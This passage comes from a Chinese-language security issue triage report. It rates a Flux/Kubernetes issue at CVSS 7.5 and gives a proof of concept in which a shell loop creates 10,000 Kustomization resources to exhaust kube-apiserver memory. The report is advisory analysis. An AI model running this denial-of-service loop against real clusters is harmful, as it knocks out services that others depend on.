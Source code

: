 | 完整性影响 (I)        | 无 (N)     |
| 可用性影响 (A)        | 高 (H)     |

**综合评分：7.5（高）**

**5. POC（概念验证）：**

按照 Issue 中提供的步骤，攻击者可以执行以下操作：

**步骤1：创建 Kubernetes 集群**
```bash
kind create cluster
```

**步骤2：添加自定义资源定义（CRD）**
```bash
curl -L https://raw.githubusercontent.com/fluxcd/kustomize-controller/main/config/crd/bases/kustomize.toolkit.fluxcd.io_kustomizations.yaml | kubectl apply -f -
```

**步骤3：批量创建大量的 Kustomization 资源**
编写一个脚本，创建例如 10,000 个 `Kustomization` 资源：

```bash
for i in {1..10000}
do
cat <<EOF | kubectl apply -f -
apiVersion: kustomize.toolkit.fluxcd.io/v1
kind: Kustomization
metadata:
  name: podinfo-$i
spec:
  interval: 10m
  targetNamespace: default
  sourceRef:
    kind: GitRepository
    name: podinfo
  path: "./kustomize"
  prune: true
  timeout: 1m
EOF
done
```

**预期结果：**
- `kube-apiserver` 的内存使用量将显著增加，可能达到数 GiB。
- 如果继续增加资源数量，`kube-apiserver` 可能会出现内存耗尽，导致服务崩溃或无法响应。

**6. 总结：**
该漏洞允许具有低权限的攻击者通过创建大量自定义资源，导致 `kube-apiserver` 内存耗尽，从而实施拒绝服务攻击。根据风险判断标准和 CVSS 评分，风险等级为高（High），应予以重视，可能需要分配 CVE 编号并及时修复。

---

# 📌 不涉及安全风险的 Issues (58 个)
